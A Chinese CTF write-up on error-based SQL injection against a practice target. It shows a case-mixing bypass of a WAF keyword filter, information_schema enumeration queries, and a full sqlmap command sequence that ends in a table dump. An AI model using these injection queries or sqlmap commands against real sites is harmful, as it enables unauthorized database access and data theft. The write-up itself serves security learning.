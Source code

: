 ```yaml
---
title: SQL报错注入实战
tags: Web漏洞攻击
categories: CTF比赛
top: 16
---
```

## 漏洞利用过程
 1. 首先我们拿到一个靶机网站，随便输入一个密码，无任何回显，然后我们进行抓包判断，查看源代码发现加入tips参数能出报错提示
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162455485.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162503191.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
 2. 可初步判断可以使用SQL报错注入进行注入攻击，然后我们对name变量进行插入恶意语句
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162519249.png)
<!--more-->
 3. 发现我们的select关键词被WAF过滤了
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162548472.png)
 4. 然后我们采用大小写绕过的方式，成功回显
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162608918.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162617134.png)
 5. 我们成功绕过WAF后，就可以正式展开攻击了。攻击的方式是将select 1中的1替换成我们想要查询的参数，这里我们替换成`group_concat(table_name) from information_schema.tables where table_schema=database()`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162658776.png)
 6. 执行成功后，可以看到所有的数据库名，fl4g和users
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162719437.png)
 7. 然后我们再进一步查询相应数据库的字段名，我们这里要查询的是fl4g这个数据库，查询语句为`sElEct group_concat(column_name) from information_schema.columns where table_name='fl4g'`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162749320.png)
 8. 最后查询语句替换为sElEct flag from fl4g，直接出flag值
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162809150.png)
## Sqlmap自动化注入
 1. 这里介绍第二种方式，使用sqlmap进行自动化注入的方式
首先我们用burpsuite神器进行抓包，将抓获的内容保存为request.txt文件
<!--more-->
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162852232.png)
2. 然后键入如下命令`sqlmap -r request.txt --dbms=mysql`，然后判断出存在POST注入漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325162949388.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
3. 然后切换命令，爆破出数据库名称`sqlmap -r request.txt --dbs --dbms=mysql –batch`，这里我们的目标是note数据库
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021032516301327.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
4. 然后指定数据库，爆出表名`sqlmap -r request.txt --dbs -D note --tables --dbms=mysql –batch`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325163031404.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
5. 然后爆出对应的字段名`sqlmap -r request.txt --dbs -D note -T fl4g --columns --dbms=mysql –batch`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325163051891.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)
6. 最后爆破出flag值`sqlmap -r request.txt --dbs -D note -T fl4g -C flag --dbms=mysql --batch --dump`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210325163109890.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTAwNzA3Mw==,size_16,color_FFFFFF,t_70)

